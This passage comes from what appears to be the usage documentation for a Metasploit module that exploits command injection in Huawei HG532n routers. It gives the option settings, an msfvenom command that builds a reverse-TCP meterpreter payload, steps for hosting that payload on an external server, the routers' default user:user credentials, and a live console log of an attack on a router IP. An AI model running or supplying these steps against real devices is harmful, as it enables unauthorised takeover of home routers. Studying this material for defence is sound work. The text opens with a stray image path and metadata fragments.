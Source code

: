- Set `LPORT` to an arbitrary port number that is accessible from outside
  networks. Metasploit will open a listener on that port and wait for the
  payload to connect back to us.

- Set `VERBOSE` to `true` if you want to see much more verbose output (Detailed
  injected telnet commands output).

TE-Data firmware ships with the `user:user` login credentials by default.
They offer limited functionality, but they are enough for our purposes.
In case you want want to change these, set `HttpUsername` and `HttpPassword`
appropriately.

Now everything should be ready to run the exploit. Enjoy your Meterpreter
session :-)

Alternatively, you can avoid hosting the payload executable from within the
module's own HTTP server and host it externally. To do so, first generate
the payload ELF executable using `msfvenom`:

```
$ msfvenom --format elf --arch mipsbe --platform linux --payload linux/mipsbe/meterpreter/reverse_tcp --out payload.elf LHOST='41.34.32.121' LPORT=4444

No encoder or badchars specified, outputting raw payload
Payload size: 212 bytes
Final size of elf file: 296 bytes
Saved as: payload.elf
```

Then host the `payload.elf` file on an external, direct-access, web
server. Afterwards set `DOWNHOST` to the external server's IP address
and `DOWNFIILE` to the payload's path on that server. Run the exploit
afterwards.


## Live Scenario (Verbose)

```
$ msfconsole
msf > use exploit/linux/http/huawei_hg532n_cmdinject

msf exploit(huawei_hg532n_cmdinject) > set RHOST 197.38.98.11
RHOST => 197.38.98.11

msf exploit(huawei_hg532n_cmdinject) > set SRVHOST 41.34.32.121
SRVHOST => 41.34.32.121

msf exploit(huawei_hg532n_cmdinject) > set LHOST 41.34.32.121
LHOST => 41.34.32.121

msf exploit(huawei_hg532n_cmdinject) > set VERBOSE true
VERBOSE => true

msf exploit(huawei_hg532n_cmdinject) > exploit
[*] Exploit running as background job.
msf exploit(huawei_hg532n_cmdinject) >
[-] Handler failed to bind to 41.34.32.121:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Validating router's HTTP server (197.38.98.11:80) signature
[+] Good. Router seems to be a vulnerable HG532n device
[+] Telnet port forwarding succeeded; exposted telnet port = 33552
[*] Connecting to just-exposed telnet port 33552
[+] Connection succeeded. Passing telnet credentials
[*] Received new reply token = '����
Password:'
[*] Received new reply token = 'Password:'
[+] Credentials passed; waiting for prompt 'HG520b>'
```